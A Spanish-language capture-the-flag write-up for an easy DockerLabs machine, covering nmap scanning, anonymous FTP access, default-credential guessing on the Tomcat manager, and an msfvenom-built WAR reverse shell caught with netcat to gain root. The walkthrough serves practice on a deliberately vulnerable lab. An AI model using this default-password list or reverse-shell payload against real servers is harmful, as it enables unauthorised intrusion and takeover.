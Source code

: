 # Máquina -Pn


Dificultad -> Easy

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

-----------
## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT     STATE SERVICE    REASON
21/tcp   open  ftp        syn-ack
8080/tcp open  http-proxy syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada a los puertos descubiertos en el anterior escaneo.

```shell
nmap -sCV -p 172.17.0.2 -oN targeted
________________________________________________
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              74 Apr 19 07:32 tomcat.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
8080/tcp open  http    Apache Tomcat 9.0.88
|_http-title: Apache Tomcat/9.0.88
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
```

Nos reporta que esta habilitado el login para**Anonymous** en el servicio **ftp**.

```shell
ftp 172.17.0.2
anonymous
---------------------
230 Login successful.
ftp> 
```

```shell
ls
------------
-rw-r--r--    1 0        0              74 Apr 19 07:32 tomcat.txt
```

Nos descargamos el **.txt** que hay con **get**:

```shell
get tomcat.txt
quit
cat tomcat.txt
---------------------------
Hello tomcat, can you configure the tomcat server? I lost the password...
```

Es posible que **tomcat** sea el usuario que necesitaremos en el servicio que corre por el puerto **8080**.

--------------
## Explotación

Al hacer click en "**manager webapp**" nos aparece un panel de login en el navegador para poder acceder.

![Pasted image 20240419200751](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/925ef76e-65ea-48fb-b7dc-9717450b6804)

Probamos contraseñas por defecto para **tomcat**:

```
admin:admin
tomcat:tomcat
admin:
admin:s3cr3t
tomcat:s3cr3t
admin:tomcat
```

Las credenciales **tomcat:s3cr3t** nos dan resultado

Logramos acceder al panel de administración de **tomcat**. Ahora tenemos que conseguir acceso a la máquina, y lo podemos hacer mediante un paquete "**.war**" malicioso. Que nos devolverá una **Reverse shell**. Lo crearemos fácilmente con **msfvenom**:

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=443 -f war -o RevShell.war
```

Siendo la 172.17.0.1 la IP de nuestra máquina atacante y 443 el puerto que abriremos.
Nos ponemos en escucha con **netcat**:

```shell
sudo nc -nlvp 443
```

En el panel de administración, vamos al apartado **WAR file to deploy**, seleccionamos nuestra **RevShell.war** y la subimos..

![Pasted image 20240419195659](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/45f33359-5bbc-40ec-8a3a-95927315ddc6)

Hacemos click en el nuevo paquete que ya nos aparece arriba y nos devuelve la conexión a nuestra máquina atacante.

![Pasted image 20240419195923](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/691173fa-5721-4927-8497-b6c9e420d1b4)

Estamos dentro !

Y además como el usuario que corre el servicio es root, hemos logrado el nivel de privilegios máximo !

```shell
whoami
----------------
root
```

